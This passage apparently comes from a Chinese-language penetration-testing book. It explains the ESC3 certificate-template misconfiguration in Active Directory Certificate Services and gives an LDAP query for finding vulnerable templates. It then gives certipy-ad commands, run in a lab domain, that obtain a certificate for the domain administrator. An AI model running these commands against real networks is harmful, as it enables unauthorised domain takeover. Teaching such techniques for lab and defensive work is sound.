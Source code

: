 图 8.21 – 使用 LDAP 查询查找证书请求代理模板

第二个条件允许用户使用第一个条件中的证书，代表其他用户请求证书以进行身份验证。对于此条件，必须满足以下配置参数：

+   企业 CA 授予低权限用户注册权限

+   管理员批准已禁用

+   证书模板定义了启用身份验证的 EKU

+   CA 上未实现注册代理限制

+   模板架构版本为 1 或更大，并指定**Application Policy**发布要求作为**证书请求** **代理** EKU

听起来有点复杂，但以下 LDAP 查询可以明确要求：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=1)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

结果是，我们找到了 ESC3 易受攻击模板：

![图 8.22 – 使用 LDAP 查询查找 ESC3 易受攻击模板](img/B18964_08_22.jpg)

图 8.22 – 使用 LDAP 查询查找 ESC3 易受攻击模板

攻击将分为两步 – 为代理请求证书，然后使用该证书代表域管理员请求证书。以下命令将实现所需结果：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3-CRA
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3 -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

命令执行的结果如以下截图所示：
